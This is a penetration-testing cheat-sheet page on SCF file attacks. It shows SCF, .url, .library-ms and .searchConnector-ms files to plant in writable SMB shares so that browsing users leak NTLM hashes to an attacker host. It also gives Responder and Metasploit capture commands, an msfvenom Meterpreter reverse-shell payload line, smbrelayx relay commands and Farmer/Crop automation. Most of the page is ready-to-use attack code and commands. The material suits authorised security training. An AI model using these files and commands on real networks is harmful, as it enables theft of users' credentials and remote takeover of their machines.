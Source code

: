 # SCF File Attacks

SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive information such as plain-text passwords and database connection strings. However even if a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or Meterpreter shells.

## Gathering Hashes

It is not new that SCF \(Shell Command Files\) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```text
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Saving the  file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.

### **URL Files**

This attack also works with `.url` files and `responder -I eth0 -v`.

```text
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### **Windows Library Files**

Windows Library Files \(.library-ms\)

```text
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### **Windows Search Connectors Files**

Windows Search Connectors \(.searchConnector-ms\)

```text
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

```text
responder -wrf --lm -v -I vboxnet0
```

![](../../../.gitbook/assets/image%20%28257%29.png)

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.

![](../../../.gitbook/assets/image%20%28251%29.png)

Alternatively to Responder, Metasploit Framework has a module which can be used to capture challenge-response password hashes from SMB clients.

```text
auxiliary/server/capture/smb
```

![](../../../.gitbook/assets/image%20%28249%29.png)

As previously when the user will browse the same share his password hash will be captured by Metasploit.

![](../../../.gitbook/assets/image%20%28252%29.png)

If the password policy inside the company is sufficient it will take possibly days or weeks for the attacker to crack the captured hash.

## Meterpreter Shells

The main advantage of the technique above it that it doesn’t require any user interaction and automatically enforces the user to connect to a share the doesn’t exist negotiating his NTLMv2 hash. Therefore it is also possible to combine this technique with SMB relay that will serve a payload in order to retrieve a Meterpreter shell from every user that will access the share.

MSFVenom can be used to generate the payload that it will executed on the target:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.171 LPORT=5555 -f exe > pentestlab.exe
```

Coresecurity has released a set of python scripts called [Impacket](https://github.com/CoreSecurity/impacket) that can perform various attacks against Windows protocols such as SMB. Using the **smbrelayx** python script it is possible to set up and SMB server that will serve a payload when the target host will try to connect. This will performed automatically since the SCF file will enforce every to user to connect to a non-existing share with their credentials.

```text
./smbrelayx.py -h Target-IP -e ./pentestlab.exe
```

![](../../../.gitbook/assets/image%20%28255%29.png)

Metasploit Framework needs to be used as well in order to receive back the connection upon execution of the pentestlab.exe on the target.

![](../../../.gitbook/assets/image%20%28247%29.png)

When the user will browse the share the SMB server will receive the connection and it will use the username and the password hash to authenticate with his system and execute the payload to a writable share.

![](../../../.gitbook/assets/image%20%28253%29.png)

A Meterpreter session will received. However in order to avoid losing the connection it is necessary to migrate to a more stable process.

## Automation

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```text
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```







